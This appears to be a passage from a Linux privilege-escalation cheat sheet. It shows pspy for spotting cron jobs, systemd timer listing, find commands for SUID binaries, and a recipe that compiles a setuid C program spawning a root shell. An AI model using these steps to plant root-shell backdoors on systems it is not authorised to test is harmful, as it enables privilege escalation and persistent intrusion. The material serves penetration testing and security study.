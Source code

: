 You can use [pspy](https://github.com/DominicBreuker/pspy) to detect a CRON job.

```powershell
# print both commands and file system events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000 
```

## Systemd timers

```powershell
systemctl list-timers --all
NEXT                          LEFT     LAST                          PASSED             UNIT                         ACTIVATES
Mon 2019-04-01 02:59:14 CEST  15h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily.timer              apt-daily.service
Mon 2019-04-01 06:20:40 CEST  19h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily-upgrade.timer      apt-daily-upgrade.service
Mon 2019-04-01 07:36:10 CEST  20h left Sat 2019-03-09 14:28:25 CET   3 weeks 0 days ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service

3 timers listed.
```

## SUID

SUID/Setuid stands for "set user ID upon execution", it is enabled by default in every Linux distributions. If a file with this bit is run, the uid will be changed by the owner one. If the file owner is `root`, the uid will be changed to `root` even if it was executed from user `bob`. SUID bit is represented by an `s`.

```powershell
╭─swissky@lab ~  
╰─$ ls /usr/bin/sudo -alh                  
-rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/sudo
```

### Find SUID binaries

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

### Create a SUID binary

| Function   | Description  |
|------------|---|
| setreuid() | sets real and effective user IDs of the calling process  |
| setuid()   | sets the effective user ID of the calling process        |
| setgid()   | sets the effective group ID of the calling process       |

```bash
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```

